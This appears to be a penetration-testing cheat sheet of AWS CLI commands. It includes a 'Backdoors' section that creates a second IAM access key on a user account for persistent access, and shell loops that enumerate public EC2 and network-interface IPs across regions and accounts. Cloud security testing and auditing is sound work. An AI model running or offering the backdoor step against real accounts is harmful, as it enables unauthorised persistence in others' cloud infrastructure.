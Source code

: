 #### Backdoors

List access keys for a user

```bash
aws iam list-access-keys --user-name <username>
```

Backdoor account with second set of access keys

```bash
aws iam create-access-key --user-name <username>
```

### Getting Public IPs and Hostnames

For each of the following examples place a file called regions.txt with the following content in the same folder you run these commands from. In most cases you will likely need to add on --profile <profile name> to the aws cli command.

#### regions.txt

```bash
us-east-1
us-east-2
us-west-1
us-west-2
ca-central-1
eu-west-1
eu-west-2
eu-west-3
eu-central-1
eu-north-1
ap-southeast-1
ap-southeast-2
ap-south-1
ap-northeast-1
ap-northeast-2
ap-northeast-3
sa-east-1
```

List all EC2 public IPs

```bash
while read r; do
	aws ec2 describe-instances --query=Reservations[].Instances[].PublicIpAddress --region $r | jq -r '.[]' >> ec2-public-ips.txt 
done < regions.txt
sort -u ec2-public-ips.txt -o ec2-public-ips.txt
```

List all EC2 Network Interface Public IPs

```bash
while read p; do
    echo $p 
while read r; do
    echo $r  
    for interface in $(aws ec2 describe-vpc-endpoints --region $r --query 'VpcEndpoints[].NetworkInterfaceIds[]' --profile $p | jq -r '.[]'); do aws ec2 describe-network-interfaces --network-interface-ids $interface --region $r --query 'NetworkInterfaces[].Association[].PublicIp' --profile $p | jq -r '.[]' >> ec2-network-interface-public-ips.txt; done; 
done < regions.txt
done < /root/Desktop/account_ids.txt
```
